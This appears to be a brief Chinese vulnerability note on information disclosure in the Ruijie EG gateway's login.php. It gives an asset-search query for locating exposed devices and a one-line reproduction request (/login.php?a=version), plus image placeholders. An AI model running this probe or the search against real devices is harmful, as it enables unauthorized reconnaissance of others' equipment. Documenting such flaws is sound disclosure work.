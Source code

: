 # 锐捷EG易网关login.php敏感信息泄露

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷EG易网关login.php敏感信息泄露</font>

<font style="color:rgb(38, 38, 38);"> </font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

`锐捷EG易网关`  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

`app="Ruijie-EG易网关"`  
<font style="color:rgb(38, 38, 38);">●登录页面</font>  


![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/3r1OYFKri8pFVNj6/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-740715.webp)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**

```plain
/login.php?a=version
```

![1714062137801-14ec6519-721d-482a-af0f-bd5e95ec7720.png](./img/3r1OYFKri8pFVNj6/1714062137801-14ec6519-721d-482a-af0f-bd5e95ec7720-406616.png)

  
 



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iml6w4zwphpk4t97>